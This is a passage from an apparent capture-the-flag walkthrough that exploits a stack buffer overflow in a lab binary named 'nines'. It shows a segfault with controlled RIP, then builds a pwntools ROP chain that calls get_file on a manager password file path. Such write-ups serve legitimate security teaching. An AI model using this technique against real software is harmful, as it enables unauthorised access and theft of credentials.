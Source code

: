 7. Enter the obtained value into the third prompt. You will get an output similar to this one:

   `Program received signal SIGSEGV, Segmentation fault.`

   `0x00000a6262626262 in ?? ()`

   Those hex `62` are equivalent to character `b` of the string we entered before, which we can replace with any address we want to jump to.

### Building the ROP chain

From here, we can begin to develop our exploit. 

1. Create a python file called `exploit_nines.py`.

2. At the top of the file place the following code:

```python
from pwn import *
import os

directory_path = "/home/user/Desktop/"
context.clear(arch='amd64')
bin = 'nines'
elf = ELF(bin) 
pty = process.PTY  
```

This code says that we want to use **pwntools** and **os**, that our directory path is `/home/user/Desktop/` (if your `nines` binary is located in a different directory, make sure to change this line to reflect that). Use 	the absolute path; our target program is x64, and specifies what our target program is (`nines`). We also 	define **pty**, which helps with input and output. Next, we need to find the location of the manager password string in the binary. 

3. Include the following line in your python script to get the location/address of the manager's password string:

```python
str_addr = next(elf.search(b"/home/gyre/managerpass.txt"))
```

Now, we need to load that string into RDI register (which is passed as the first argument in x64), then call `get_file`. To do this, we need to find an ROP gadget in the binary, which is code that pops the stack into RDI, then returns to the address on the stack. Pwntools can build this for us.

4. Add the following line to your python script:

```python
rop = ROP(bin)  
rop.call("get_file", [str_addr])
```

To recap: what we need to do, is overflow the buffer to control the RIP registry, then point the RIP registry to our ROP chain -- which is code that will load the RDI registry with our password file string, then return to `get_file`. 

5. The next few lines do that: 

```python
buffer = b"aaaabaaacaaadaaaeaaafaaaga"
rip = rop.chain()
payload = buffer + rip
```
